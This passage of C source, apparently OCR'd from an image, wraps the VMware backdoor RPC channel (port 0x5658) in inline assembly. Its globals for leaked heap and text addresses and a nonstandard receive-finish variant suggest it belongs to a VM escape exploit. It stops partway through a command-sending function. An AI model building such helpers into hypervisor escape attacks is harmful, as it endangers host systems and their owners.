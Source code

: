 ```
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10","%r11","%r12"
       );
}

void channel_recv_finish(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x1,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
void channel_recv_finish2(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movq $0x21,%%rbx\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0005001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
void channel_close(int cookie1,int cookie2,int channel_num,int *res){
    asm("movl %%eax,%%ebx\n\t"
        "movq %%rcx,%%r10\n\t"
        "movl $0x564d5868,%%eax\n\t"
        "movl $0x0006001e,%%ecx\n\t"
        "movw $0x5658,%%dx\n\t"
        "out %%eax,%%dx\n\t"
        "movl %%ecx,(%%r10)\n\t"
        :
        :
        :"%rax","%rbx","%rcx","%rdx","%rsi","%rdi","%r10"
       );
}
struct channel{
    int cookie1;
    int cookie2;
    int num;
};
uint64_t heap =0;
uint64_t text =0;
void run_cmd(char *cmd){
    struct channel tmp;
    int res,len,i;
    char *data;
    channel_open(&tmp.cookie1,&tmp.cookie2,&tmp.num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(tmp.cookie1,tmp.cookie2,tmp.num,strlen(cmd),&res);
```